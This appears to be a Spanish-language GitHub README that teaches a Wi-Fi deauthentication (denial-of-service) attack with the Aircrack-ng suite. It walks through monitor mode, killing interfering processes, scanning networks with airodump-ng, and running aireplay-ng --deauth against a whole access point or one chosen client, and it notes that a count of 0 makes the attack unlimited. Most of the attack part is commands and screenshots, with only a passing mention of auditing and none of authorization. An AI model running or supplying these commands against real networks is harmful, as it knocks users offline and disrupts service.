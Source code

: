 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?color=F70000&width=401&lines=Ataque+de+desautenticaci%C3%B3n+Wi-Fi"></a>
</p>

<h1 align="center"></h1>

Un ataque de desautenticación Wi-Fi, también conocido como denegación de servicio a nivel red, consiste en inundar de solicitudes al punto de acceso o estación para saturar el ancho de banda con el objetivo de desconectar a todos los clientes de la red por un tiempo definido. Las tramas de desautenticación se realizan normalmente para determinar una conexión entre un cliente y un punto de acceso (AP) sin necesidad de ir cifrado. Por lo tanto, cualquier persona dentro de la red local (LAN) puede falsificar la dirección MAC de la víctima o AP.


En el siguiente esquema se observa como el `Atacante` envía solicitudes masivas al `Punto de Acceso`, haciendo que el/los clientes u otros equipos que estén conectados a la red LAN se vean afectados.

![esquema_desautenticacion](https://user-images.githubusercontent.com/75953873/180201683-5b0b1d4d-154d-4f3e-91a0-ecec5e35e4c1.png)

<h1 align="center"></h1>

Existen infinidades de herramientas para realizar este ataque, una de las más conocidas es la suite de Aircrack-ng, ya viene incorporada en distribuciones basadas en Debian como lo es Kali Linux y Parrot OS.

**Instalar en Debian:**
```
sudo apt-get install aircrack-ng
```

Pero antes que nada hay que reconocer la dirección MAC del objetivo (AP) y para ello es necesario poner nuestra tarjeta de red en modo monitor. Esto permitirá escuchar y capturar todos los paquetes que viajan en el aire.
```
ifconfig wlan0 down
iwconfig wlan0 mode monitor
ifconfig wlan0 up
```
![1](https://user-images.githubusercontent.com/75953873/180204632-77b2796f-52ba-4f03-8749-f3ce83a16a47.png)

Si lo prefieren automatizado:
```
airmon-ng start wlan0
```
![2](https://user-images.githubusercontent.com/75953873/180204828-ea12756e-4daf-4041-95e7-337f19969bd7.png)

Lo siguiente será matar los procesos PID para no presentar ningún error al momento de auditar la red. Cada PID es único y se puede matar de forma manual según su ID:
```
pkill <nombre-del-proceso>
```
![3](https://user-images.githubusercontent.com/75953873/180205864-5c1debac-deed-4bb2-8146-58f864389591.png)

Pero si lo preferimos, aircrack lo hace automatizado por nosotros:
```
airmon-ng check kill
```
![4](https://user-images.githubusercontent.com/75953873/180206365-5a57d41b-26a8-40aa-bac1-1b2ad1b80d39.png)

A continuación, es momento de reconocer las redes de nuestro alrededor:
```
airodump-ng wlan0
```
![5](https://user-images.githubusercontent.com/75953873/180207009-d32f3206-8a73-41b7-b389-466aa8ac67a3.png)

**BSSID:** Dirección MAC del punto de acceso.

**PWR:** Rango en el que se encuentra el AP.

**Beacons:** Número de paquetes envíado por el AP.

**#Data:** Número de paquetes capturados.

**CH:** Número de canal donde opera el AP.

**MB:** Velocidad máxima soportada por el AP. MB = 11 es 802.11b, si MB = 22 es 802.11b+ y hasta 54 son 802.11g.

**ENC:** Tipo de algoritmo de cifrado, generalmente las redes privadas utilizan WPA/WPA2 y WEP. En caso de ser una red pública, el algoritmo que utilizará es OPN = sin encriptación.

**AUTH:** Protocolo de autenticación utilizado.

**ESSID:** Nombre de la red inalámbrica.

Luego de reconocer el BSSID y el canal, quedaría capturar los paquetes del AP objetivo:
```
airodump-ng -c <N-CHANNEL> --bssid <MAC-AP> wlan0
```
![6](https://user-images.githubusercontent.com/75953873/180209382-2b325c19-3b9c-4fc9-8395-91d46da5fb16.png)

La `STATION` son los clientes que están conectados la red (BSSID). En otra terminal proseguiremos a lanzar el ataque de desautenticación para desconectarlos:
```
aireplay-ng --deauth <SEGUNDOS> -a <MAC-AP> wlan0
```
![7](https://user-images.githubusercontent.com/75953873/180210826-d42ea7a3-8a7a-49aa-9f9a-bedbcc510d1c.png)

Al específicar el tiempo en `0` el ataque será ilimitado, el párametro `a` es el BSSID del punto de acceso que atacará, permitiendo así que todos los clientes no puedan conectarse a dicha red.

El ejemplo anterior desconectará a todos los dispositivos de la red. Ahora, si quisieramos desautenticar a un dispositivo en específico utilizamos el parámetro `-c` **+** la dirección `MAC` del dispositivo (STATION).
```
aireplay-ng --deauth <SEGUNDOS> -a <MAC-AP> -c <MAC> wlan0
```
![8](https://user-images.githubusercontent.com/75953873/180893744-86724669-affe-45b6-a424-9e0d77e0315e.png)

